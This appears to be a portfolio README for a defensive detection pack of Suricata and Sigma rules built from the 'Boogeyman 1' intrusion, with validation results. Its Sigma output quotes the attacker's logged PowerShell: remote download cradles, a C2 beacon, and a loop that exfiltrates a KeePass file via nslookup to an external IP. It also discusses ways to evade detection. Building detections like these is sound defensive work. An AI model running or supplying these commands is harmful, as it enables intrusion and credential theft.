


# Boogeyman 1 — Detection Engineering Pack (Suricata NIDS & Sigma EDR/SIEM)

**Author:** Tyrone Gabriel Pascual  
**Companion DFIR Investigation:** [`incident-response/boogeyman-1/report.md`](../../incident-response/boogeyman-1/report.md)  
**Validation Datasets:** `capture.pcapng` (`48,858` packets) & `powershell.json` (`987` PowerShell Event ID 4104 records)  

> [!NOTE]
> **Purpose of This Project:**  
> After completing the reactive forensic investigation of [Boogeyman 1](../../incident-response/boogeyman-1/report.md), I engineered and tested a **9-rule detection pack** (**5 Suricata NIDS rules** + **4 Sigma PowerShell 4104 rules**) designed around the **Pyramid of Pain**—prioritizing reusable **behavioral (TTP) detections** over easily rotated IP/domain indicators, and validating every rule against the full packet capture and endpoint event logs with **zero false positives**.

---

## 1. Detection Coverage & Validation Matrix

### 1.1 Network Intrusion Detection Rules ([`suricata/boogeyman1_custom.rules`](suricata/boogeyman1_custom.rules))
Tested via offline PCAP replay on **Suricata 8.0.7 RELEASE** across **48,858 packets**:

| SID | Rule Name | Detection Type | MITRE ATT&CK | Verified Hits (`capture.pcapng`) | False Positives |
|:---:|---|---|:---:|:---:|:---:|
| `1000001` | `CUSTOM HTTP Python SimpleHTTP Payload Server Response` | Behavioral / Staging Tooling | `T1105` | **3** (`/update`, `/sb.exe`, `/sq3.exe`) | `0` |
| `1000002` | `CUSTOM HTTP Boogeyman C2 Beacon Header Detected` | Campaign IOC (`X-38d2-8f49`) | `T1071.001` | **20** *(rate-limited 1/min via `threshold`)* | `0` |
| `1000003` | `CUSTOM HTTP PowerShell C2 Decimal-Encoded Command Output POST` | Behavioral / Payload Encoding | `T1132.001` | **24** *(all C2 command output POSTs)* | `0` |
| `1000004` | `CUSTOM DNS High-Entropy Hex Subdomain Exfiltration (40-63 Chars)` | Behavioral / DNS Tunneling | `T1048.003` | **2** *(rate-limited 1/min across 267 packets)* | `0` |
| `1000005` | `CUSTOM DNS Direct Outbound Query to External Rogue Resolver (10-63 Hex Chars)` | Defense-in-Depth / Policy + Short-Hex | `T1048.003` | **2** *(rate-limited 1/min across 267 packets)* | `0` |

### 1.2 Endpoint PowerShell Script Block Rules ([`sigma/`](sigma/))
Tested via [`scripts/test_sigma_on_json.py`](scripts/test_sigma_on_json.py) across **987 PowerShell Event ID 4104 logs**:

| Sigma Rule File | Severity | MITRE ATT&CK | Verified Hits (`powershell.json`) | What It Catches |
|---|:---:|:---:|:---:|---|
| [`ps_encoded_cradle_execution.yml`](sigma/ps_encoded_cradle_execution.yml) | `HIGH` | `T1059.001` | **2** | Initial `.lnk` `DownloadString` cradle (`17:10:07`) & GitHub `Invoke-Seatbelt.ps1` cradle (`17:12:17`) |
| [`ps_http_c2_decimal_beacon.yml`](sigma/ps_http_c2_decimal_beacon.yml) | `CRITICAL` | `T1071.001`, `T1132.001` | **1** | In-memory `while ($true)` HTTP polling loop with `UTF8.GetBytes` decimal encoding (`17:10:09`) |
| [`ps_sqlite_sticky_notes_dump.yml`](sigma/ps_sqlite_sticky_notes_dump.yml) | `HIGH` | `T1552.001` | **4** | Directory reconnaissance & `sq3.exe` SQL query dumping `plum.sqlite` (`17:22:47` – `17:25:38`) |
| [`ps_kdbx_hex_dns_exfiltration.yml`](sigma/ps_kdbx_hex_dns_exfiltration.yml) | `CRITICAL` | `T1005`, `T1048.003` | **4** | `ReadAllBytes` file staging (`2` hits), `ToString X2` hex conversion (`1` hit), and `nslookup` DNS loop (`1` hit) |

---

## 2. Engineering Deep-Dive: Evasion Resistance, Thresholding & False-Positive Analysis

### 2.1 Catching Initial Staging 22 Minutes Before Exfiltration (`SID 1000001`)
```suricata
alert http any any -> any any (msg:"CUSTOM HTTP Python SimpleHTTP Payload Server Response"; flow:established,to_client; http.stat_code; content:"200"; http.response_header; content:"Server|3a 20|SimpleHTTP/"; content:"Python/"; distance:0; classtype:trojan-activity; sid:1000001; rev:1;)
```
* **Why `SimpleHTTP/ Python/` is flagged:** Python's built-in `python3 -m http.server` is a single-threaded development module never used by legitimate public production websites, but heavily used by threat actors and red teams to stage tools on VPS droplets.
* **Operational Impact:** Fires at `17:10:10 UTC` on the very first Stage-2 download (`/update`), giving the SOC **22 minutes of lead time** to isolate `10.10.182.255` before the KeePass database is exfiltrated at `17:32:41 UTC`.
* **False Positives & Tuning:** Software engineers may run `python3 -m http.server` on internal lab VLANs (`$HOME_NET -> $HOME_NET`). In production, scope the rule header to `alert http $EXTERNAL_NET any -> $HOME_NET any`.

### 2.2 Defeating Alert Fatigue on High-Frequency Beacons (`SID 1000002` & `SID 1000003`)
* Because the PowerShell implant polls `GET /b86459bb` every `0.8` seconds, an unthrottled signature on `X-38d2-8f49` generates **1,500+ duplicate alerts** in 24 minutes.
* Adding `threshold: type limit, track by_src, count 1, seconds 60;` compresses the alert stream to **1 heartbeat alert per minute per infected source IP** (`20` total alerts), while still immediately alerting if a second internal workstation gets infected.
* Meanwhile, **`SID 1000003`** uses `http.method; content:"POST";` and `pcre:"/^[0-9]{2,3}(\x20[0-9]{2,3}){15,}/";` on `http.request_body` to alert exclusively when the victim executes a command and returns space-delimited decimal ASCII output (`24` hits), remaining completely independent of the C2 domain, port, or header name.

### 2.3 Defense-in-Depth Against "Low-and-Slow" & "Short-Hex" DNS Evasion (`SID 1000004` + `SID 1000005`)
A single DNS tunneling rule can often be bypassed if an attacker modifies their script:
1. **Evasion Scenario A — Low-and-Slow Timing:** If a rule requires `type both, count 5, seconds 60`, an attacker can add `Start-Sleep 16` between `nslookup` calls so only 4 queries occur per minute—evading the threshold completely.
   * **Fix in `SID 1000004`:** Because legitimate domain names never start with a 40–63 character pure-hexadecimal label (`/^[0-9a-fA-F]{40,63}\./`), we use `threshold: type limit, track by_src, count 1, seconds 60;`. Even if the attacker sends **1 packet per hour**, the rule triggers on the **very first packet** (`01:32:42.199522`).
2. **Evasion Scenario B — Shrinking Chunk Size to 5–10 Hex Pairs (`10–20` chars):** What if the attacker changes `$split` from 50 characters down to 10–20 hex characters so `SID 1000004` (`{40,63}`) doesn't match?
   * **Fix in `SID 1000005`:** By combining **network policy enforcement** (`[10.0.0.0/8] any -> ![10.0.0.0/8,172.16.0.0/12,192.168.0.0/16] 53` — catching internal hosts querying an external/rogue DNS server directly instead of the internal AD/VPC resolver) with a lower hex threshold (`/^[0-9a-fA-F]{10,63}\./`), we catch even 5-byte (10-hex-char) chunks on Packet #1 with **zero false positives**.

---

## 3. Verification Output & Screenshots

### 3.1 Suricata PCAP Replay Output ([`suricata/eve_alerts_summary.txt`](suricata/eve_alerts_summary.txt))



```text
=== SURICATA ALERT SUMMARY BY SID ===
      3 1000001 | CUSTOM HTTP Python SimpleHTTP Payload Server Response
     20 1000002 | CUSTOM HTTP Boogeyman C2 Beacon Header Detected
     24 1000003 | CUSTOM HTTP PowerShell C2 Decimal-Encoded Command Output POST
      2 1000004 | CUSTOM DNS High-Entropy Hex Subdomain Exfiltration (40-63 Chars)
      2 1000005 | CUSTOM DNS Direct Outbound Query to External Rogue Resolver (10-63 Hex Chars)
```

### 3.2 Sigma Validation Output (`powershell.json`)



```text
[*] Loaded 987 PowerShell Event ID 4104 logs from powershell.json

=== ps_encoded_cradle_execution.yml | Level: HIGH | Hits: 2 ===
Title: PowerShell Fileless WebClient DownloadString Cradle
  -> [2023-01-13 17:12:17.683688Z] iex(new-object net.webclient).downloadstring('https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/Pow
  -> [2023-01-13 17:10:07.577594Z] iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')

=== ps_http_c2_decimal_beacon.yml | Level: CRITICAL | Hits: 1 ===
Title: PowerShell In-Memory HTTP Polling Beacon with Byte Encoding
  -> [2023-01-13 17:10:09.961645Z] $s='cdn.bpakcaging.xyz:8080';$i='8cce49b0-b86459bb-27fe2489';$p='http://';$v=Invoke-WebRequest -UseBasicParsin

=== ps_kdbx_hex_dns_exfiltration.yml | Level: CRITICAL | Hits: 4 ===
Title: PowerShell File Byte Staging, Hex Encoding, and DNS Tunneling Loop
  -> [2023-01-13 17:31:48.507719Z] $file='protected_data.kdbx'; $destination = "167.71.211.113"; $bytes = [System.IO.File]::ReadAllBytes($file);;
  -> [2023-01-13 17:32:41.384043Z] $split = $hex -split '(\S{50})'; ForEach ($line in $split) { nslookup -q=A "$line.bpakcaging.xyz" $destination
  -> [2023-01-13 17:32:23.702462Z] $hex = ($bytes|ForEach-Object ToString X2) -join '';;pwd
  -> [2023-01-13 17:32:15.105474Z] $file='C:\Users\j.westcott\Documents\protected_data.kdbx'; $destination = "167.71.211.113"; $bytes = [System.I

=== ps_sqlite_sticky_notes_dump.yml | Level: HIGH | Hits: 4 ===
Title: Credential Harvesting from Windows Sticky Notes Database via PowerShell
  -> [2023-01-13 17:22:47.494476Z] ls AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe;pwd
  -> [2023-01-13 17:25:38.759011Z] .\Music\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite "SE
  -> [2023-01-13 17:24:12.967200Z] .\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\;pwd
  -> [2023-01-13 17:22:53.558146Z] ls AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState;pwd
```

---

## 4. Files in This Package

| Path | Description |
|---|---|
| [`suricata/boogeyman1_custom.rules`](suricata/boogeyman1_custom.rules) | 5 custom Suricata NIDS rules (`SID 1000001` – `1000005`) |
| [`suricata/eve_alerts_summary.txt`](suricata/eve_alerts_summary.txt) | Alert counts and `fast.log` output from replaying `capture.pcapng` |
| [`sigma/ps_encoded_cradle_execution.yml`](sigma/ps_encoded_cradle_execution.yml) | Sigma rule for fileless `Net.WebClient` `DownloadString` cradles |
| [`sigma/ps_http_c2_decimal_beacon.yml`](sigma/ps_http_c2_decimal_beacon.yml) | Sigma rule for PowerShell HTTP polling beacons with byte encoding |
| [`sigma/ps_sqlite_sticky_notes_dump.yml`](sigma/ps_sqlite_sticky_notes_dump.yml) | Sigma rule for Sticky Notes (`plum.sqlite`) credential harvesting |
| [`sigma/ps_kdbx_hex_dns_exfiltration.yml`](sigma/ps_kdbx_hex_dns_exfiltration.yml) | Sigma rule for `ReadAllBytes` staging, `ToString X2`, and `nslookup` DNS tunneling |
| [`scripts/test_sigma_on_json.py`](scripts/test_sigma_on_json.py) | Python validator script to evaluate the Sigma YAML rules against `powershell.json` |
| [`screenshots/01_suricata_alerts_summary.png`](screenshots/01_suricata_alerts_summary.png) | Terminal screenshot of Suricata `eve.json` alert summary & structured fields |
| [`screenshots/02_sigma_hits.png`](screenshots/02_sigma_hits.png) | Terminal screenshot of Sigma rule hits across 987 PowerShell Event ID 4104 logs |
